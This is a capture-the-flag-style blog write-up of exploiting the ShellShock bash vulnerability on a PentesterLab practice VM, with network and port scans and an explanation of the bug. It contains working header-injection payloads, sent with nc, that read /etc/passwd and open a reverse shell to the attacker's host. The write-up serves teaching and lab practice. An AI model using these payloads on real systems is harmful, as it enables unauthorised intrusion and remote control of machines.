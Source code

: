 ```yaml
---
layout: post
title:  "PentestLabs: CVE-2014-6271 (ShellShock)"
subtitle: "Vulnhub Writeups"
date:   2017-03-10 15:00:00 -0000
author: "coastal"
header-img: "images/site-resources/shellshock-header.jpg"
---
```

# Introduction
ShellShock is a vulnerability in which environmental variables of the bash shell could be used to perform remote code execution. This VM from PentestLabs tasks you with gaining a shell on the system by abusing the ShellShock vuln.

# Attack

First step for us after setting up the VM is to scan the network and find it.

```
root@kali:~# netdiscover -i eth1



Currently scanning: 192.168.92.0/16   |   Screen View: Unique Hosts

3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:00      1      60  Unknown vendor
192.168.56.100  08:00:27:02:fd:51      1      60  PCS Systemtechnik GmbH
192.168.56.103  08:00:27:9b:76:f2      1      60  PCS Systemtechnik GmbH 
```

Alright, our target is at ```192.168.56.103```. Let's do a port scan and see what services are available:

```
root@kali:~# nmap -sV -p- 192.168.56.103

Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-10 13:00 EST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.103
Host is up (0.00010s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.21 ((Unix) DAV/2)
MAC Address: 08:00:27:9B:76:F2 (Oracle VirtualBox virtual NIC)
```

We see that there is an Apache instance running on port 80. Let's connect with our browser and see what is being served.

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/home-page.jpg">

Interesting, it is showing us some information about the uptime and kernel version running on the server. This is dynamically-generated content. Why don't we take a look at the traffic in Burp and see if there is any interceptable command request being fired.

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/cgi-request.jpg">

Aha, we have a request being made to /cgi-bin/status. Some googling leads us to the likely purpose of the request.

Common Gateway Interface (CGI)
> In computing, Common Gateway Interface (CGI) offers a standard protocol for web servers to execute programs
> that execute like Console applications (also called Command-line interface programs) running on a server that
> generates web pages dynamically. Such programs are known as CGI scripts or simply as CGIs. The specifics of how
> the script is executed by the server are determined by the server. In the common case, a CGI script essentially
> executes at the time a request is made and generates HTML.[1]

Some important details related to this vulnerability is that this CGI is written in bash. Another detail is that Apache uses environmental variables to pass headers to CGI scripts. And finally, bash can have internal function declaration in environmental variables. The vulnerability itself is that the vulnerable version of bash allowed for the execution of arbitrary commands after a function declaration.

So, in order to perform this attack, we need to modify one of the header values so that it declares an empty bash function. We concatenate another command on the end of that function declaration, and that command should be arbitrarily executed by the server when Apache stores the header as an environmental variable when the CGI is called. This output should be returned to us in the response headers. Let's transition to throwing requests via a terminal so we can grab the response headers easily and try to pop ```/etc/passwd```.

```
echo -e "head /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: 192.168.56.103\r\nConnection: close\r\n\r\n" | nc 192.168.56.103 80
HTTP/1.1 200 OK
Date: Fri, 10 Mar 2017 19:00:40 GMT
Server: Apache/2.2.21 (Unix) DAV/2
root: x:0:0:root:/root:/bin/sh
lp: x:7:7:lp:/var/spool/lpd:/bin/sh
nobody: x:65534:65534:nobody:/nonexistent:/bin/false
tc: x:1001:50:Linux User,,,:/home/tc:/bin/sh
pentesterlab: x:1000:50:Linux User,,,:/home/pentesterlab:/bin/sh
Content-Length: 175
Connection: close
Content-Type: application/json

{ "uptime": " 19:00:40 up 1:45, 1 users, load average: 0.00, 0.01, 0.01", "kernel": "Linux vulnerable 3.14.1-pentesterlab #1 SMP Sun Jul 6 09:16:00 EST 2014 i686 GNU/Linux"} 
```

Alright! We have remote code execution. Now let's grab ourselves a shell

```
echo -e "head /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.56.102 4444 -e /bin/sh\r\nHost: 192.168.56.103\r\nConnection: close\r\n\r\n" | nc 192.168.56.103 80
```

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/reverse-shell.jpg">

And we have successfully pwn'd the box! This vulnerability is worryingly simple. It was discovered in 2014 and retroactive analysis of the Bash source code showed that the bug had existed since 1989...While the vector in this attack was through a bash-based CGI script handler, there are other vectors for Shellshock including

- OpenSSH ```ForceCommand``` on-login execution of environmental variable ```SSH_ORIGINAL_COMMAND``` to upgrade a restricted shell to an unrestricted shell
- DHCP client execution of payload string received from malicious DHCP Server
- Qmail server passage of external input

There is a test command that can be used to detect this initial version of the ShellShock vulnerability. Execution on vulnerable and secure hosts can be seen here.

#### Vulnerable

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/test-vulnerable.jpg">

#### Safe

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/test-safe.jpg">

The vulnerability also went through multiple iterations before being completely patched out in 2014. All in all, a cool vulnerability and exploit!

## References

[1. Wikipedia of Course][wiki]


[2. Pentestlabs writeup][pentest]

[wiki]:https://en.wikipedia.org/wiki/Shellshock_(software_bug)
[pentest]:https://pentesterlab.com/exercises/cve-2014-6271/course



